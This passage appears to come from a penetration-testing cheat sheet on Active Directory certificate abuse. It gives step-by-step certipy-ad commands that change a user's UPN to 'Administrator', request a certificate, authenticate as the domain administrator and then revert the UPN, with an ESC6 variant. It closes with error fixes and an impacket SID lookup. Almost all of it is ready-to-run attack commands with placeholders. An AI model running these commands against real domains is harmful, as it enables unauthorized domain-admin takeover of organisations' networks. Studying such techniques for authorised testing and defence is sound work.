 ```console
$ certipy-ad req -k -dc-ip '<RHOST>' -target '<RHOST>' -ca '<CA>' -template 'User'
```

Revert the `UPN` to the original `user`.

```console
$ certipy-ad account -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -upn 'Administrator' -user '<USERNAME>' update
```

```console
$ certipy-ad auth -pfx 'Administrator.pfx' -username '<USERNAME>' -domain '<DOMAIN>' -dc-ip '<RHOST>'
```

##### Scenario B: Combined with ESC6 (CA allows SAN specification via request attributes)

```console
$ certipy-ad account -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -user '<USERNAME>' read
```

```console
$ certipy-ad account -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -upn '<USERNAME>' -user '<USERNAME>' update
```

```console
$ certipy-ad req -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -target '<RHOST>' -ca '<CA>' -template 'User' -upn 'Administrator@<DOMAIN>' -sid 'S-1-5-21-...-500'
```

Revert the `UPN` to the original `user`.

```console
$ certipy-ad account -u '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -dc-ip '<RHOST>' -upn '<USERNAME>' -user '<USERNAME>' update
```

```console
$ certipy-ad auth -pfx 'Administrator.pfx' -username '<USERNAME>' -domain '<DOMAIN>' -dc-ip '<RHOST>'
```

### Error Handling

#### Fixing Username or domain is not specified, and identity information was not found in the certificate Error

```console
$ certipy-ad auth -pfx 'Administrator.pfx' -username 'Administrator' -domain '<DOMAIN>' -dc-ip '<RHOST>'
```

#### Fixing Object SID mismatch between certificate and user 'Administrator' Error

```console
$ impacket-lookupsid <DOMAIN>/<USERNAME>:<PASSWORD>@<RHOST>
```
